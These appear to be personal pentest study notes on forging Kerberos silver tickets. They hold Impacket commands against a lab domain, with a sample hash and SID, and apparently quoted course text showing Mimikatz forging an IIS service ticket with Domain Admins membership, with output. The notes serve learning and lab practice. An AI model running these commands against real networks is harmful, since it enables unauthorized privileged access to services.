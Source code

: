 ### Ticketer
To generate a Silver ticket we need 3 resources:
* NTLM Hash 
* DC SID
* SPN

### Getting NTLM Hash
If we don't have the NTLM Hash but we have the password we can generate the hash with this tool: [NTLM Hash Generator](https://codebeautify.org/ntlm-hash-generator)
![[Pasted image 20230122000844.png]]

### Extracting DC SID
We can use the following command:
```bash
impacket-getPac scrm.local/ksimpson:ksimpson -targetUser Administrator
```

### Getting the SPN
(-k option is needed only if NTLM authentication is disabled)
```bash
impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -k -dc-ip dc1.scrm.local
```

### Generating the Silver Ticket:
```bash
impacket-ticketer -spn MSSQLSvc/dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local Administrator -domain scrm.local
```

### Using ticket with any impacket utility
We can export the Administrator.ccache file generated so we can use it with any impacket utility:
```bash
export KRB5CCNAME=Administrator.ccache
```
As shown below:
```bash
impacket-mssqlclient dc1.scrm.local -k                                                                                                                                                             
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```
Examples:
[[Scramble#^ac1e1e]]

Resources:
[SilverTicket Explanation S4vitar Minuto 1:20:00](https://www.youtube.com/watch?v=osmFGqnFe8c&ab_channel=S4viOnLive%28BackupDirectosdeTwitch%29):
![[Pasted image 20230122223446.png]]

In the previous section, we used the overpass the hash technique (along with the captured NTLM hash) to acquire a Kerberos TGT, allowing us to authenticate using Kerberos. We can only use the TGT on the machine it was created for, but the TGS potentially offers more flexibility.

The _Pass the Ticket_ attack takes advantage of the TGS, which may be exported and re-injected elsewhere on the network and then used to authenticate to a specific service. In addition, if the service tickets belong to the current user, then no administrative privileges are required.

So far, this attack does not provide us with any additional access, but it does offer flexibility in being able to choose which machine to use the ticket from. However, if a service is registered with a service principal name, this scenario becomes more interesting.

Previously, we demonstrated that we could crack the service account password hash and obtain the password from the service ticket. This password could then be used to access resources available to the service account.

However, if the service account is not a local administrator on any servers, we would not be able to perform lateral movement using vectors such as pass the hash or overpass the hash and therefore, in these cases, we would need to use a different approach.

As with Pass the Hash, Overpass the Hash also requires access to the special admin share called Admin$, which in turn requires local administrative rights on the target machine.

Remembering the inner workings of the Kerberos authentication, the application on the server executing in the context of the service account checks the user's permissions from the group memberships included in the service ticket. The user and group permissions in the service ticket are not verified by the application though. The application blindly trusts the integrity of the service ticket since it is encrypted with a password hash - in theory - only known to the service account and the domain controller.

As an example, if we authenticate against an IIS server that is executing in the context of the service account _iis_service_, the IIS application will determine which permissions we have on the IIS server depending on the group memberships present in the service ticket.

However, with the service account password or its associated NTLM hash at hand, we can forge our own service ticket to access the target resource (in our example the IIS application) with any permissions we desire. This custom-created ticket is known as a _silver ticket_ and if the service principal name is used on multiple servers, the silver ticket can be leveraged against them all.

Mimikatz can craft a silver ticket and inject it straight into memory through the (somewhat misleading) kerberos::golden command. We will explain this apparent misnaming later in the module.

To create the ticket, we first need the obtain the so-called _Security Identifier_ or _SID_ of the domain. A SID is an unique name for any object in Active Directory and has the following structure:

```
S-R-I-S
```

Within this structure, the SID begins with a literal "S" to identify the string as a SID, followed by a _revision level_ (usually set to "1"), an _identifier-authority_ value (often "5" within AD) and one or more _subauthority_ values.

For example, an actual SID may look like this:

```
S-1-5-21-2536614405-3629634762-1218571035-1116
```

The first values in above ("S-1-5") are fairly static within AD. The _subauthority_ value is dynamic and consists of two primary parts: the domain's _numeric identifier_ (in this case "21-2536614405-3629634762-1218571035") and a _relative identifier_ or _RID_ representing the specific object in the domain (in this case "1116").

The combination of the domain's value and the relative identifier help ensure that each SID is unique.

We can easily obtain the SID of our current user with the whoami /user command and then extract the domain SID part from it. Let's try to do this on our Windows 10 client:

```
C:\>whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-1602875587-2787523311-2599479668-1103
```

The SID defining the domain is the entire string except the RID at the end ( _-1103_ ) .

Now that we have the domain SID, let's try to craft a silver ticket for the IIS service we previously discovered in our dedicated lab domain.

The silver ticket command requires a username (/user), domain name (/domain), the domain SID (/sid), which is highlighted above, the fully qualified host name of the service (/target), the service type (/service:HTTP), and the password hash of the iis_service service account (/rc4).

Finally, the generated silver ticket is injected directly into memory with the /ptt flag.

Before running this, we will flush any existing Kerberos tickets with kerberos::purge and verify the purge with kerberos::list:

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::list

mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
User      : offsec
Domain    : corp.com (CORP)
SID       : S-1-5-21-1602875587-2787523311-2599479668
User Id   : 500
Groups Id : \*513 512 520 518 519
ServiceKey: e2b475c11da2a0748290d87aa966c327 - rc4_hmac_nt
Service   : HTTP
Target    : CorpWebServer.corp.com
Lifetime  : 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
-> Ticket : \*\* Pass The Ticket \*\*

 \* PAC generated
 \* PAC signed
 \* EncTicketPart generated
 \* EncTicketPart encrypted
 \* KrbCred generated

Golden ticket for 'offsec @ corp.com' successfully submitted for current session

mimikatz # kerberos::list

[00000000] - 0x00000017 - rc4_hmac_nt
   Start/End/MaxRenew: 13/02/2018 10.18.42 ; 11/02/2028 10.18.42 ; 11/02/2028 10.18.42
   Server Name       : HTTP/CorpWebServer.corp.com @ corp.com
   Client Name       : offsec @ corp.com
   Flags 40a00000    : pre_authent ; renewable ; forwardable ;
```

As shown by the output in Listing 49, a new service ticket for the SPN _HTTP/CorpWebServer.corp.com_ has been loaded into memory and Mimikatz set appropriate group membership permissions in the forged ticket. From the perspective of the IIS application, the current user will be both the built-in local administrator ( _Relative Id: 500_ ) and a member of several highly-privileged groups, including the Domain Admins group (as highlighted above).

To create a silver ticket, we use the password hash and not the cleartext password. If a kerberoast session presented us with the cleartext password, we must hash it before using it to generate a silver ticket.

Now that we have this ticket loaded into memory, we can interact with the service and gain access to any information based on the group memberships we put in the silver ticket. Depending on the type of service, it might also be possible to obtain code execution.